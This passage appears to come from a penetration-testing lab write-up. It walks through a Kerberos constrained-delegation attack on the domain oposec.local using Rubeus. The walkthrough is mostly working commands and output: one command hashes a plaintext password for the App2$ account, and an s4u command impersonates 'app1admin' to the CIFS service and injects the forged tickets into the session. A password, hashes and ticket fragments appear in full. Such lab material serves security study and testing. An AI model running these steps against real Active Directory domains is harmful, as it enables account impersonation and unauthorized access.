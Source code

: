 To proceed with the attack, first a valid TGT/KRB-CRED file is needed for the account with constrained delegation configured. This can be achieved with the `asktgt` action, given the NTLM/RC4 hash of the account. Thus, the first thing we need to do is to generate a RC4 hash of the password we have for `App2$`:

```powershell
PS C:\ .\Rubeus.exe hash /password:MdXShCaeOviiTzxk3g0G /user:App2 /domain:oposec.local

Rubeus  v1.6.4

[*] Action: Calculate Password Hash(es)

[*] Input password             : MdXShCaeOviiTzxk3g0G
[*] Input username             : App2
[*] Input domain               : oposec.local
[*] Salt                       : OPOSEC.LOCALapp2
[*]       rc4_hmac             : EED530845242DD4013C0BEF37787EA33
[*]       aes128_cts_hmac_sha1 : 7520D771E68ECBDD07DF87D50B335F9C
[*]       aes256_cts_hmac_sha1 : 6498A898DB822E6C554FF12D069A7718975C11C169809DD7B516B6A67A76FE59
[*]       des_cbc_md5          : 15FD1054A20DF2A4
```

The ticket is then supplied to the `s4u` action via `/ticket`, along with a required `/impersonateuser:app1admin` to impersonate to the `/msdsspn:cifs/app1.oposec.local` SPN that is configured in the account’s `msds-allowedToDelegateTo` field.  If a `/dc` is not specified, the computer’s current domain controller is extracted and used as the destination for the renewal traffic, thus we need to pass `oposec.local`. The `/ptt` flag will “pass-the-ticket” and apply the resulting Kerberos credential to the current logon session (this only works if the localhost machine the administrative tools available, e.g., Windows Enterprise).


```powershell
PS C:\> .\Rubeus.exe s4u /user:App2$ /rc4:EED530845242DD4013C0BEF37787EA33 /impersonateuser:app1admin /msdsspn:cifs/app1.oposec.local /ptt /output:ticket.txt /domain:oposec.local /dc:51.137.206.45

 Rubeus v1.6.4

[*] Action: S4U

[*] Using rc4_hmac hash: EED530845242DD4013C0BEF37787EA33
[*] Building AS-REQ (w/ preauth) for: 'oposec.local\App2$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE3DCCBNigAwIBBaEDAgEWooID9DCCA/BhggPsMIID6KADAgEFoQ4bDE9QT1NFQy5MT0NBTKIhMB+g...


[*] Action: S4U

[*] Using domain controller: 51.137.206.45
[*] Building S4U2self request for: 'App2$@OPOSEC.LOCAL'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'app1admin' to 'App2$@OPOSEC.LOCAL'
[*] base64(ticket.kirbi):

      doIFGjCCBRagAwIBBaEDAgEWooIEPTCCBDlhggQ1MIIEMaADAgEFoQ4bDE9QT1NFQy5MT0NBTKISMBCg...

[*] Impersonating user 'app1admin' to target SPN 'cifs/app1.oposec.local'
[*] Using domain controller: 51.137.206.45
[*] Building S4U2proxy request for service: 'cifs/app1.oposec.local'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/app1.oposec.local':

      doIF4jCCBd6gAwIBBaEDAgEWooIE8zCCBO9hggTrMIIE56ADAgEFoQ4bDE9QT1NFQy5MT0NBTKIkMCKg...
```